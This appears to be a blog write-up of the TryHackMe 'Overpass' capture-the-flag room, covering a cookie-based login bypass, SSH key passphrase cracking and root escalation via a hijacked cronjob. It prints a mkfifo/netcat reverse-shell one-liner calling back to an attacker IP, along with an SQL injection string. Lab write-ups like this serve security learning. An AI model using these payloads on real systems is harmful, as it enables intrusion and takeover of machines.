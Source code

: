 ```yaml
---
layout: post
title:  "Overpass - TryHackMe writeup"
date:   2024-08-21 10:00:00 +0200
categories: tryhackme ctf writeup
---
```

{:refdef: style="text-align: center;"}
[![Challenge logo](/assets/overpass/0_title.png)](/assets/overpass/0_title.png){:target="_blank"}
{:refdef}

**CTF Name**: [Overpass](https://tryhackme.com/r/room/overpass){:target="_blank"}  
**Description**: What happens when some broke CompSci students make a password manager?  
**Categories**: Linux, Web Application, OWASP Top 10, Privilege Escalation  
**Difficulty**: Easy  

Let's begin with the usual enumeration. Scanning the target with **nmap** reveals that it is exposing something on port **80**.

{:refdef: style="text-align: center;"}
[![Nmap scan](/assets/overpass/1_nmap.png)](/assets/overpass/1_nmap.png){:target="_blank"}
{:refdef}

While nmap finishes its job, let's visit the target with a browser to take a look at the website it is serving.

{:refdef: style="text-align: center;"}
[![Website](/assets/overpass/2_website.png)](/assets/overpass/2_website.png){:target="_blank"}
{:refdef}

Scanning the website with **gobuster** reveals an interesting directory, **/admin**.

{:refdef: style="text-align: center;"}
[![Gobuster](/assets/overpass/3_gobuster.png)](/assets/overpass/3_gobuster.png){:target="_blank"}
{:refdef}

On this page we can see a login form. There are several ways to break login forms, but many seem unfeasible. Default insecure credentials such as **admin:admin**, **admin:password**, or **admin:123456** do not seem to work. Trying to bypass the authentication form with **SQL Injection** (by inserting **' OR 1 = 1;--** in either field) does not seem to work either. **Cross Site Scripting** also seems unfeasible.

Going back to inspect the default page's code, nothing useful can be found (except for a funny comment).

{:refdef: style="text-align: center;"}
[![Website source code](/assets/overpass/4_page_source.png)](/assets/overpass/4_page_source.png){:target="_blank"}
{:refdef}

Switching to the console tab, however, displays a "Hello World" message. Have the developers forgot to remove some test code? Or perhaps some code may be revealing information about our target.

{:refdef: style="text-align: center;"}
[![Console](/assets/overpass/5_console.png)](/assets/overpass/5_console.png){:target="_blank"}
{:refdef}

Going back to **/admin** we can notice that not only does this happen again, but when observing the downloaded JavaScript code there are two more files that may be of interest.

{:refdef: style="text-align: center;"}
[![JavaScript files](/assets/overpass/6_js_files.png)](/assets/overpass/6_js_files.png){:target="_blank"}
{:refdef}

The file responsible for the "Hello World" message is **main.js**, which only does this. The **cookie.js** file seems like a one-liner that defines a custom cookie, while the **login.js** file seems more of interest.

Inspecting this file reveals that the **login()** function that handles the login process is expecting a response from the API. This response is either "**Incorrect credentials**", or a value for a cookie that has "**SessionToken**" as key. We could try setting this cookie's value to something specific, hoping that it is enough to bypass the login form.

{:refdef: style="text-align: center;"}
[![Login form](/assets/overpass/7_login_js.png)](/assets/overpass/7_login_js.png){:target="_blank"}
{:refdef}

Running **Cookies.set("SessionToken", "admin")** in the console will set the value for "**SessionToken**" to be "**admin**".

**Note**: you may have to enable pasting commands into the console by following the instructions provided by your browser. Some browsers require this as a form of prevention.

{:refdef: style="text-align: center;"}
[![Setting the malicious cookie](/assets/overpass/8_malicious_cookie_1.png)](/assets/overpass/8_malicious_cookie_1.png){:target="_blank"}
{:refdef}

Now refreshing the page will let us in as the website is not managing authentication properly. We can see the cookie we just set, and also the administrator dashboard.

{:refdef: style="text-align: center;"}
[![The malicious cookie was saved](/assets/overpass/9_malicious_cookie_2.png)](/assets/overpass/9_malicious_cookie_2.png){:target="_blank"}
{:refdef}

Here we meet some interesting information: we get to know that **James** is a user that can log in via **SSH**, and we even get his **private SSH key**.

{:refdef: style="text-align: center;"}
[![Private SSH key](/assets/overpass/10_private_key.png)](/assets/overpass/10_private_key.png){:target="_blank"}
{:refdef}

After copying this key into a file and changing its permissions with **chmod 400 KEYFILE** (to avoid the "**Unprotected private key file!**" error) we can finally try SSHing into the target machine, but we will be met by a prompt asking for a **passphrase**. We still cannot use this private key as it has to be decrypted (as the page and the key's header themselves were also telling us).

{:refdef: style="text-align: center;"}
[![Passphrase requested](/assets/overpass/11_passphrase.png)](/assets/overpass/11_passphrase.png){:target="_blank"}
{:refdef}

Before actually cracking this key we have to transform it into a suitable format. Running **ssh2john KEYFILE > HASHFILE** will output a crackable hash into the file **HASHFILE**.

**Note**: if you are not running Kali Linux (or if you are using an older version) you may have to install this tool. To do so, simply download it with

{% highlight bash %}
curl https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py -o ssh2john.py
{% endhighlight %}

and then run **python3 ssh2john KEYFILE > HASHFILE**.

{:refdef: style="text-align: center;"}
[![Converting the encrypted private key](/assets/overpass/12_ssh2john.png)](/assets/overpass/12_ssh2john.png){:target="_blank"}
{:refdef}

We can now crack this hash with **sudo john HASHFILE -w=/usr/share/wordlists/rockyou.txt**.

It won't take long before James' passphrase is in our hands.

{:refdef: style="text-align: center;"}
[![Cracking the passphrase](/assets/overpass/13_cracked_passphrase.png)](/assets/overpass/13_cracked_passphrase.png){:target="_blank"}
{:refdef}

We can now SSH into the target machine.

Exploring the **/home** directory (James' directory in particular) we can find the **user.txt** file which contains the first flag of this challenge.

{:refdef: style="text-align: center;"}
[![User flag](/assets/overpass/14_user_flag.png)](/assets/overpass/14_user_flag.png){:target="_blank"}
{:refdef}

There is another file in this directory, **todo.txt**, which may be of interest. As a matter of fact, reading this file we learn that there is an automated build script running somewhere. Let's see... if there are any **cronjobs** that run this script by reading **/etc/crontab**...

Indeed, there is a cronjob that downloads a script and then runs it in bash... with **root privileges**! This actually happens every minute.

{:refdef: style="text-align: center;"}
[![Crontab](/assets/overpass/15_crontab.png)](/assets/overpass/15_crontab.png){:target="_blank"}
{:refdef}

Since this script is downloaded and ran as **root**, we could easily provide a malicious script to escalate our privileges. We do not have control over the machine that serves this file, but if we had **write access** to the **/etc/hosts** file we could create an entry that would resolve to a server we can actually control. The malicious server will then serve a script which would get executed as root on our target machine.

Running **ls -l /etc/hosts** we can see that it is indeed **world-writable**.

{:refdef: style="text-align: center;"}
[![Hosts file](/assets/overpass/16_etc_hosts.png)](/assets/overpass/16_etc_hosts.png){:target="_blank"}
{:refdef}

Reading it we can see that there is an entry for **overpass.thm** already, so let's comment it out and add our own entry. Our entry will resolve to the IP address of our attacking machine. From now on, each request done on **overpass.thm** will be sent to our own machine.

We still have to create our own malicious script, so let's create a path that is similar to the one queried by the cronjob on our machine. From a comfortable directory in our attacking machine (which is **~/TryHackMe/Overpass** for me), we can run **mkdir downloads/** and **mkdir downloads/src/** to create the appropriate path, while **touch downloads/src/buildscript.sh** will create the file.

Before editing this file, let's go back to the target machine and verify that **netcat** is installed and that it supports the **-e** flag.

{:refdef: style="text-align: center;"}
[![Checking that netcat supports an appropriate flag](/assets/overpass/17_netcat.png)](/assets/overpass/17_netcat.png){:target="_blank"}
{:refdef}

Unfortunately it doesn't, but that won't stop us!

Let's go back to our machine and edit the newly created script to open a reverse shell to our own machine with the following one-liner:

{% highlight bash %}
/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP_ADDRESS PORT >/tmp/f
{% endhighlight %}

Remember to use your own IP address and a port number of your choice.

{:refdef: style="text-align: center;"}
[![Setting up the reverse shell](/assets/overpass/18_reverse_shell_script.png)](/assets/overpass/18_reverse_shell_script.png){:target="_blank"}
{:refdef}

Now let’s run a listener on our attacking machine with **nc -lvnp 4444** and make our home directory available by running **python -m http.server 80** (this runs a **HTTP server** on port **80**) in another terminal window, and in less than a minute we should receive a connection from the target machine.

{:refdef: style="text-align: center;"}
[![HTTP server](/assets/overpass/19_HTTP_server.png)](/assets/overpass/19_HTTP_server.png){:target="_blank"}
{:refdef}

{:refdef: style="text-align: center;"}
[![Root shell](/assets/overpass/20_root_shell.png)](/assets/overpass/20_root_shell.png){:target="_blank"}
{:refdef}

Normally we would be interested in converting this shell to a fully interactive shell, but as the objective - the **root flag** - is right around the corner we can just reach it this way.

If you’re interested in converting this shell in a fully interactive one, you can read how to in my previous writeup, [LazyAdmin]({% link _posts/2024-08-19-Lazy-Admin.markdown %})!
